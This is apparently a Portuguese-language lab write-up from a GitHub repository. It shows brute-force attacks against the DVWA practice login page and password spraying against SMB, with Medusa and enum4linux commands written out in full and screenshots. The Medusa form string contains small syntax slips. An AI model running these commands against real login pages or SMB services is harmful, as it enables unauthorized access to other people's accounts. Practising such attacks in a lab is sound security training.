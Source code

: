 

Assim terminamos o ataque.



# Ataque Brute Force em um sistema da web e automatizado

# 1°passo: vamos usar o formulário de login disponível na web como "(IP)/drwa/login.php"

<img width="1360" height="720" alt="image" src="https://github.com/user-attachments/assets/270c1c2f-23c5-4398-82c3-aa426646c260" /> 



Não conseguindo entrar vamos criar uma wordlist de users e password, no qual nesse teste vamos usar as mesmas criadas anteriormente



# 2°passo; inserir o comando para o medusa agir dentroo do site da web

 "medusa -h (IP) -U user.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php'\
-m FORM:'username^USER^&password=^PASS^&Login=Login'
-m 'FAIL=Login failed' -t 6 

<img width="1360" height="720" alt="image" src="https://github.com/user-attachments/assets/9bf8872e-1def-4ee8-aea3-7fcf759a4de0" />

Utilizando o primeiro casa de sucesso para realizar o login e conseguindo entrar na interface de usuário.

# Ataque Brute Force em SMB e password spraying 

# 1° passo é fazer a enumeração com o "enum4linux"
|
|--> para isso vamos utilizar o comando "enum4linux -a (IP) | tee enum4_output.txt", para gravar a saída em um arquivo.

<img width="1360" height="720" alt="image" src="https://github.com/user-attachments/assets/b4956280-d2bd-4023-af89-8bcd38aa09ab" />


# 2°passo vamos utilizar o comando "less enum4_output.txt", para ler e identificar os users

<img width="1360" height="720" alt="image" src="https://github.com/user-attachments/assets/a95f1aa6-8dc0-4b1b-b106-17e3f2c3809d" />

# 3°passo é criar as wordlists de user e password
# 4°passo é realizar o ataque com medusa usando o comando "medusa -h (IP) -U(wordliste_users) -P(wordlist_pwd) -M SMBNT -t 2 -T 50
